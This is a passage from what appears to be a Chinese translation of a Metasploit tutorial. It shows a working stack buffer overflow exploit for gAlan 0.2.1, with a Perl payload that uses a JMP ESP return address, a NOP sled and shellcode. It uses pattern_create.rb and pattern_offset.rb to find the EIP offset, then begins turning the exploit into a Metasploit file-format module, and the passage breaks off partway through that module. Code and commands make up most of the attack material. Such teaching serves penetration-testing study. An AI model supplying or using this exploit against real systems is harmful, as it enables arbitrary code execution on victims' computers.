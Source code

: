 一旦我们有了利用的概念证明，下一步将是收集尽可能多的关于利用的信息。让我们好好看看概念证明。前几行由存储在 `$shellcode`变量中的外壳代码组成。这可以通过使用 `msfpayload`或 `msfvenom:`使用框架中可用的任何有效载荷生成

```
$magic = "Mjik";
$addr = 0x7E429353; # JMP ESP @ user32,dll
$filename = "bof.galan";
$retaddr = pack('l', $addr);
$payload = $magic . $retaddr x 258 . "\x90" x 256 . $shellcode;

```

主要漏洞代码以包含四字节字符串的 `$magic`开头。然后，我们有一个 `$addr`变量，它包含 `ESP`堆栈指针的位置。然后我们有一个包含文件名的 `$filename`变量，该文件名将作为开发后阶段创建。 `$retaddr`包含堆栈指针将指向并导致溢出后执行利用漏洞代码的返回地址的位置。最后，我们有了有效负载的执行，它负责开发和外壳代码的执行。

从这次攻击中我们知道我们的外壳代码最多可以达到 700 字节。此外，我们的有效负载的总长度是 1214 字节。这些信息将有助于构建我们的模块。

我们可以使用重复的返回地址，也可以在 `EIP`被覆盖时找到大小。Metasploit 有一个名为 `pattern_create.rb`的优秀工具，可以帮助找到 `EIP`被覆盖的确切位置。该工具生成一系列独特的模式，这些模式可以通过使用调试器传递给漏洞攻击代码；我们可以找到 `EIP`中存储的字符串模式。让我们创建一个 5000 个字符的字符串：

```
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb
Usage: pattern_create.rb length [set a] [set b] [set c]
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb 5000 
```

现在，编辑利用脚本，用另一个测试变量 `$junk`替换 `$payload`，并复制该变量中 5000 个字符的字符串。现在，用这个脚本测试应用程序，并检查哪个模式存储在 `EIP`中。我假设您了解反转和调试应用程序的基础知识。假设 `EIP`中存储的字符串模式为“234abc”。现在我们将使用另一个名为 `pattern_offset.rb`的 Metasploit 工具来计算该模式在我们传递的字符串中的位置：

```
root@bt:/pentest/exploits/framework3/tools# ./pattern_offset.rb 0x234abc 5000
1032 
```

因此，为了获得 `EIP`的确切位置而要传递的字节总数是 1032。

现在，我们已经收集了有关该漏洞的足够信息，并准备将其转换为 Metasploit 模块。

## 它是如何工作的。。。

让我们开始构建模块。脚本的第一行也是最重要的一行是导入库和创建父类。然后，我们将定义 `initialize()`函数，该函数将包含有关利用漏洞的信息，并注册选项：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
include Msf::Exploit::FILEFORMAT
def initialize(info = {})
super(update_info(info,
'Name' => 'gAlan 0.2.1 Buffer Overflow Exploit',
'Description' => %q{
This module exploits a stack overflow in gAlan 0.2.1
By creating a specially crafted galan file, an attacker may be able
to execute arbitrary code.
},
'License' => MSF_LICENSE,
'Author' => [ 'original by Jeremy Brown' ],
'Version' => '$Revision: 7724 $',
'References' =>
[
[ 'URL', 'http://www.exploit-db.com/exploits/10339' ],
],
'DefaultOptions' =>
{
'EXITFUNC' => 'process',
},
'Payload' =>
{
'Space' => 1000,
```